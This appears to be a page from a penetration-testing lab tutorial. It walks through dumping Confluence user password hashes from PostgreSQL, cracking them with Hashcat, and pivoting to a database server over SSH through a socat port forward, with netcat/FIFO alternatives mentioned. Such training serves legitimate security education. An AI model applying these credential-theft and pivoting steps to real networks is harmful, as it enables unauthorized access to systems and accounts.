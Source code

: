 ```bash
postgres=# \c confluence
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "confluence" as user "postgres".

confluence=# select * from cwd_user;

   id    |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
---------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
  458753 | admin          | admin           | T      | 2022-08-17 15:51:40.803 | 2022-08-17 15:51:40.803 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | c2ec8ebf-46d9-4f5f-aae6-5af7efadb71c |       327681 | {PKCS5S2}WbziI52BKm4DGqhD1/mCYXPl06IAwV7MG7UdZrzUqDG8ZSu15
...
```

We receive several rows of user information. Each row contains data for a single Confluence user, including their password hash. We will use Hashcat to try to crack these.


```bash
hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt
```

We might suspect that these passwords are reused in other places throughout the network. After some more enumeration of the internal network, we'll find PGDATABASE01 is also running an SSH server. Let's try these credentials against this SSH server. With our new port forwarding skill, we can create a port forward on CONFLUENCE01 that will allow us to SSH directly from our Kali machine to PGDATABASE01.

First, we need to kill the original Socat process listening on TCP port 2345. We'll then create a new port forward with Socat that will listen on TCP port 2222 and forward to TCP port 22 on PGDATABASE01.

```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```

We'll then use our SSH client to connect to port 2222 on CONFLUENCE01, as though we are connecting directly to port 22 on PGDATABASE01. We can use the database_admin user, and the password we just cracked using Hashcat.

```bash
kali@kali:~$ ssh database_admin@192.168.50.63 -p2222
```

Keep in mind that there are several alternatives to socat. *rinetd* is an option that runs as a daemon. This makes it a better solution for longer-term port forwarding configurations, but is slightly unwieldy for temporary port forwarding solutions. We can combine Netcat and a FIFO named pipe file to create a port forward(https://gist.github.com/holly/6d52dd9addd3e58b2fd5). 
